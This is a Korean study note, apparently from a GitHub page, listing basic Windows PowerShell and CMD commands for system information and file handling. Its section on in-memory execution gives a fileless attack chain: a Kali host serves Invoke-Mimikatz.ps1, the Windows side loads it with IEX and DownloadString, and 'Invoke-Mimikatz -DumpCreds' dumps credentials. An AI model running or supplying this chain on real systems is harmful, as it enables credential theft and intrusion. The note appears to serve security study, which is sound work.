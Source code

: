# 윈도우 파워쉘 명령어

## 1. 기본 명령어 (Cmdlet)
- `<동사>-<명사>` 형태로 구성
- 예시
  - `Get-Content` : 파일 내용을 출력 (리눅스의 `cat`과 유사)
  - `Set-Date` : 시스템 날짜 설정
- 도움말 보기
  - `Get-Help -Detailed <명령어>` : 상세 도움말
  - `Get-Help -Examples <명령어>` : 명령어 예제
- 자주 쓰는 명령어
  - `hostname` : 호스트 이름 확인
  - `whoami` : 현재 사용자 확인

## 2. 별명(Alias)
- 명령어 별명으로 간단히 사용 가능
  - 예: `Get-Content == cat`
- 리눅스 사용자들이 익숙하게 사용 가능
- `cd` 별명 확인: `Get-Alias cd`

## 3. 스크립트 실행
- 확장자: `.ps1`, `.psd`, `.psm` 등
- 직접 실행 가능
- 메모리상에 스크립트 로드 후 함수 사용 가능
- 인-메모리 실행(In-Memory Execution) 지원
- "Fileless" (파일리스) 악성코드 관련

## 4. 시스템 명령어 및 예시
- `systeminfo` : 시스템 정보 표시
- `ls -Force` : 숨김 파일 포함 모든 파일 및 폴더 표시
- `echo "Hello"` : 텍스트 출력
- `Get-Process` : 실행 중인 프로세스 목록 표시
- `Get-Process | Where-Object { $_.ProcessName -eq "explorer" }` : explorer 프로세스만 필터링 표시

## 5. 파일 및 디렉토리 작업
- `Cat -First 2 ./test.txt` : 파일의 첫 2줄 출력
- `Cat -Last 2 ./test.txt` : 파일의 마지막 2줄 출력
- `mv ./test.txt test2.txt` : 파일 이름 변경 또는 이동

## 6. 인 메모리 실행 방법
**Kali Linux 준비**
-`wget https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1` : 인 메모리 실행 프로세스 준비
-`python3 -m http.server 80` : python 웹 서버 START
**Windows**
- `IEX(New-Object Net.Webclient).DownloadString('http://KaliLinuxIP/Invoke-Mimikatz.ps1')`: 칼리리눅스의 웹 서버로, 인 메모리 실행 프로세스 다운로드
- `Get-Help Invoke-Mimikatz`
- `Invoke-Mimikatz -DumpCreds`

---

# 윈도우 CMD 명령어

## 1. 시스템/정보 확인
- `whoami` : 현재 로그인한 사용자 이름 표시
- `whoami/priv` : 현재 로그인한 사용자의 권한 표시
- `net user <유저이름>` : 유저의 다양한 정보 확인
- `hostname` : 컴퓨터 이름 표시
- `ipconfig` : 네트워크 구성 정보 표시
- `systeminfo` : 시스템 정보 표시
- `tasklist` : 실행 중인 프로세스 목록 표시
- `taskkill /PID <프로세스ID>` : 프로세스 종료
- `shutdown /s` : 시스템 종료
- `shutdown /r` : 시스템 재시작

## 2. 디렉토리/파일 탐색 및 관리
- `dir` : 현재 디렉토리 파일/폴더 목록 표시 (리눅스 `ls`와 유사)
- `dir /S` : 하위 디렉토리 포함 모든 파일/폴더 목록 표시
- `cd` : 디렉토리 변경
- `cls` : 화면 지우기
- `mkdir <폴더명>` : 새 디렉토리 생성
- `rmdir <폴더명>` : 디렉토리 삭제
- `copy <원본> <대상>` : 파일 복사
- `move <원본> <대상>` : 파일 이동 또는 이름 변경
- `del <파일명>` : 파일 삭제

## 3. 파일 내용 및 출력
- `echo Hello` : 문자열 출력
- `type test.txt` : 텍스트 파일 내용 출력 (리눅스 `cat`과 유사)

## 4. 명령어 도움말
- `<명령어> /?` : 명령어 사용법 및 옵션 확인

---
